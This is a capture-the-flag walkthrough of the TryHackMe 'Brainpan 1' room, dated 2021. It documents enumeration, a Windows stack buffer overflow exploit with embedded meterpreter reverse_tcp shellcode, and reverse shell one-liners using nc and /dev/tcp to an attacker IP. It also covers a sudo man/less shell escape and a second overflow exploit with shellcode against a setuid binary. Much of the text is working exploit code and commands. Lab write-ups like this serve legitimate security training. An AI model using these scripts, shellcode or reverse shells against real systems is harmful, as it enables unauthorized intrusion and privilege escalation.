

*2021-09-08*

*kimm3*

# Walkthrough: Brainpan 1
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/brainpan)

## Setup


```
script history
export IP=10.10.161.80
ping $IP
```

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`


Interesting. Connecting to port 9999 with netcat:


No password returns access denied and closes connection.


Http index of port 10000.

`dirsearch -u $IP:10000 --recursive -R 2 -o scans/index-init.md --format=md`


Well thank you.

Copying the file over to a windows vm and running it with immunity debugger.


Used my script from the buffer overflow prep room. Overflow is possible and offset found.

Checking for bad characters and that eip value is correct.


Offset seems to be correct(sent all C's).


No bad characters found with mona or manual check.


A valid jmp esp pointer.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.1 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`


Working on practice machine, let's try target.
## Foothold/Exploit
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00"`

```
#!/usr/bin/python3

import socket

# socket values
ip = "10.10.161.80"
port = 9999

# sendbuff values
cmd = ""
offset = 524
overflow = "A" * offset
eip_val = "\xf3\x12\x17\x31"
nops = "\x90" * 16
payload = ("\xdb\xdc\xd9\x74\x24\xf4\xb8\x3a\x83\xdc\x48\x5f\x29\xc9\xb1"
"\x5e\x31\x47\x1a\x83\xef\xfc\x03\x47\x16\xe2\xcf\x7f\x34\xc7"
"\x2f\x80\xc5\xb8\x1e\x52\xa1\xb3\x32\x62\xa1\x96\xbe\x09\xe7"
"\x02\x37\xe8\x39\xd4\xcc\x81\x11\x25\x65\x2f\x44\x08\x49\x1c"
"\xb4\x0b\x35\x5f\xe9\xeb\x04\x90\xfc\xea\x41\x66\x8a\x03\x1f"
"\x2e\xff\x8e\x8f\x5b\xbd\x12\xae\x8b\xc9\x2b\xc8\xae\x0e\xdf"
"\x64\xb0\x5e\xab\x2c\x92\x5f\x7f\x47\x9a\x47\x2f\xd2\xd2\x0c"
"\xf3\x95\xd5\x13\x80\x11\x9d\xed\x41\x68\x61\x2c\xa2\x87\xcd"
"\xae\xfa\xaf\xed\xc4\xf0\xcc\x90\xde\xc2\xaf\x4e\x6a\xd5\x17"
"\x04\xcc\x31\xa6\xc9\x8b\xb2\xa4\xa6\xd8\x9d\xa8\x39\x0c\x96"
"\xd4\xb2\xb3\x79\x5d\x80\x97\x5d\x06\x52\xb9\xc4\xe2\x35\xc6"
"\x17\x4a\xe9\x62\x53\x78\xfc\x13\x9c\x83\x01\x4e\x0b\x48\xcc"
"\x71\xcb\xc6\x47\x01\xf9\x49\xfc\x8d\xb1\x02\xda\x4a\xc3\x04"
"\xdd\x85\x6b\x44\x23\x26\x8c\x4d\xe0\x72\xdc\xe5\xc1\xfa\xb7"
"\xf5\xee\x2e\x2d\xff\x78\xdb\xba\x2d\x0b\xb3\xb8\xd1\xed\xf8"
"\x34\x37\xbd\xae\x16\xe7\x7e\x1f\xd7\x57\x17\x75\xd8\x88\x07"
"\x76\x32\xa1\xa2\x99\xeb\x9a\x5a\x03\xb6\x50\xfa\xcc\x6c\x1d"
"\x3c\x46\x85\xe2\xf3\xaf\xec\xf0\xe4\xd7\x0e\x08\xf5\x7d\x0f"
"\x62\xf1\xd7\x58\x1a\xfb\x0e\xae\x85\x04\x65\xac\xc1\xfb\xf8"
"\x85\xba\xca\x6e\xaa\xd4\x32\x7f\x2a\x24\x65\x15\x2a\x4c\xd1"
"\x4d\x79\x69\x1e\x58\xed\x22\x8b\x63\x44\x97\x1c\x0c\x6a\xce"
"\x6b\x93\x95\x25\xe8\xd4\x6a\xb8\xc7\x7c\x03\x42\x58\x7d\xd3"
"\x28\x58\x2d\xbb\xa7\x77\xc2\x0b\x48\x52\x8b\x03\xc3\x33\x79"
"\xb5\xd4\x19\xdf\x6b\xd5\xae\xc4\x9c\xac\xdf\xfb\x5c\x51\xf6"
"\x9f\x5c\x52\xf6\xa1\x61\x85\xcf\xd7\xa4\x16\x74\xf7\x3a\xb2"
"\x81\x90\xe2\x57\x28\xfd\x14\x82\x6f\xf8\x96\x26\x10\xff\x87"
"\x43\x15\xbb\x0f\xb8\x67\xd4\xe5\xbe\xd4\xd5\x2f")
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```


We're in as user puck. There's two  more users, reynard and anansi. We don't have access to their home folders. There's a script checking and running the web server if it dies. The machine seems to be a linux using wine to emulate windows and run the brainpan exe.

Was able to start 'bin/bash' and ran linpeas and sent back the results.

`nc -lp 1234 | sh | nc 10.8.210.115 4242`


Also started a proper reverse bash shell.

`bash -i >& /dev/tcp/10.8.210.115/4242 0>&1`


Two interesting things from the output. A setUID binary and permissions to run a binary with sudo(no password required).

### Privesc the easy way
Using the sudo privs on 'anansi_utils'.

Running 'anansi_utils' with sudo gives us three options.

`sudo /home/anansi/bin/anansi_utils`

The third(manual) runs man command as root.


Man pages uses 'less' as default, and within less we can run commands on system by prepending '!'.

`manual bash` and `!id` gives us:


Starting a reverse shell within less.

`!bash -i >& /dev/tcp/10.8.210.115/1337 0>&1`


### Privesc the tryhard way
BOF vulnerability on 'validate' binary. The `/usr/local/bin/validate` has setUID bit set and is owned by anansi. So we won't get root by exploiting it but we might be able to land shell as anansi user.

**I never got the bad characters right, had to google it, not sure why**


Just running it give us a usage text, it takes input.


Running it with a bit more input, will generate a segmentation fault.

`./validate $(python -c 'print "A"*200')`

So this might be vulnerable to a bof.

Downloading it to local machine for futher exploit.

`nc -w 3 10.8.210.115 1337 < validate`

Get a ballpark value of where the segfault happens:



It takes 111 characters before breaking.

1. Generated a pattern with create_pattern.rb.
2. Ran the binary in gdb with pattern as argument.
3. Checked eip value and got offset from pattern_offset.rb


Confirming offset by sending all A's and the 4 B's that should end up in EIP.

In gdb: `r "print('A'*116+'B'*4)"` and then `i r`.


Correct. Two things left, finding bad characters and a pointer that will make it run our code.

`objdump -d validate | grep jmp | grep esp`


No 'jmp' pointers to esp or eax.

`objdump -d validate | grep call | grep eax`


There are calls to eax, which is at the start of our input. So instead of first overflowing with A's, we put our shellcode appended with nops up to the offset, then a return address back to the start.

Finding bad characters. Generate a file with all hex characters and run in gdb.


**note**

To me it looks like the bad chars should be "\x00\x09\x0a\x20", which dosen't work. Consulting the internet it should be "\x00\x0a\0d\x20\x46". They show up fine when I run gdb, but removing them works.

`msfvenom -a x86 -p linux/x86/exec CMD=/bin/bash -b '\x00\x0d\x0a\x20\x46' -e x86/shikata_ga_nai -f c`

```
#!/usr/bin/python3
import os

## offset = 116
## overflow = "A" * offset
eip_val = "\xaf\x84\x04\x08"

## payload is 95 bytes
payload = ("\xba\xa5\xd9\x28\xb5\xda\xd8\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x0b\x83\xc6\x04\x31\x56\x11\x03\x56\x11\xe2\x50\xb3\x23\xed"
"\x03\x16\x52\x65\x1e\xf4\x13\x92\x08\xd5\x50\x35\xc8\x41\xb8"
"\xa7\xa1\xff\x4f\xc4\x63\xe8\x58\x0b\x83\xe8\x77\x69\xea\x86"
"\xa8\x1e\x84\x56\xe0\xb3\xdd\xb6\xc3\xb4")

sendbuffer = payload + "\x90" * (116-70) + eip_val
## os.popen("./validate " + str(sendbuffer.encode()))
print(sendbuffer)
```

```
# local
python exploit.py > out
nc -w 3 10.10.206.68 3333

# target
cd /tmp
nc -lp 3333 > out
/usr/local/bin/validate $(cat out)
```


We can now easily change the contents of 'anansi_utils' to just spawn a shell immediately. User 'puck' will be able to run it with sudo.


